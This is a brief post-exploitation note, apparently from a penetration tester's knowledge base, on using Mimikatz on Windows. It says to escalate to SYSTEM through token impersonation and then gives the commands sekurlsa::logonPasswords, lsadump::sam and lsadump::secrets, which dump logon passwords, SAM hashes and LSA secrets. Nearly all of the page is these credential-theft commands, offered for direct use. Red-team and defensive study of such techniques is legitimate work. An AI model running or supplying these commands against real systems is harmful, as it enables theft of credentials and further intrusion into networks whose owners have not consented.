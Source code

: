 # Mimikatz

If not then elevate token then check if you're `NT AUTHORITY\SYSTEM` in a elevated context.

![[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x02 - Privilege Escalation/Windows/Local Privilege Escalation/Impersonation Privileges/Token Impersonation/Abusing Tokens/SeImpersonatePrivilege/Offensive Tools/Binaries#^1e52a7]]

Then you can dump the credentials.

```
mimikatz # sekurlsa::logonPasswords

mimikatz # lsadump::sam

mimikatz # lsadump::secrets
```
